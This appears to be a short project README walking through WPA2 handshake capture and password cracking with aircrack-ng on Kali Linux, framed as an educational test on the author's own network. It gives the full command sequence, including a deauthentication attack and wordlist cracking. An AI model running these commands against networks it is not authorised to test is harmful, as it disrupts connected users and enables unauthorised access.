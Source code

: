 # 🛠️ WiFi Handshake Capture Demo

This is a demonstration of how to capture a WPA2 handshake using `aircrack-ng` tools.

> ⚠️ This test was performed on **my own network** for educational purposes only.

---

## 📸 Steps (with Images)

1. **Stop network services**
   ```bash
   sudo airmon-ng check kill
   ```
   ![](images/kill_services.png)

2. **Enable monitor mode**
   ```bash
   sudo airmon-ng start wlan0
   ```
   ![](images/enable_monitor_mode.png)

3. **Discover Wi-Fi networks**
   ```bash
   sudo airodump-ng wlan0mon
   ```
   ![](images/scan_networks.png)

4. **Capture WPA2 handshake**
   ```bash
   sudo airodump-ng -c [CH] --bssid [BSSID] -w capture wlan0mon
   ```
   ![](images/capture_handshake.png)

5. **Disconnect a device (for handshake)**
   ```bash
   sudo aireplay-ng --deauth 5 -a [BSSID] wlan0mon
   ```
   ![](images/send_deauth.png)

6. **Analyze handshake with a wordlist**
   ```bash
   sudo aircrack-ng -w wordlist.txt -b [BSSID] capture.cap
   ```
   ![](images/crack_password.png)

7. **Result**
   ![](images/final_result.png)

---

## 📁 Notes

- Environment: Kali Linux
- This project is strictly for learning and demonstration on your own network.
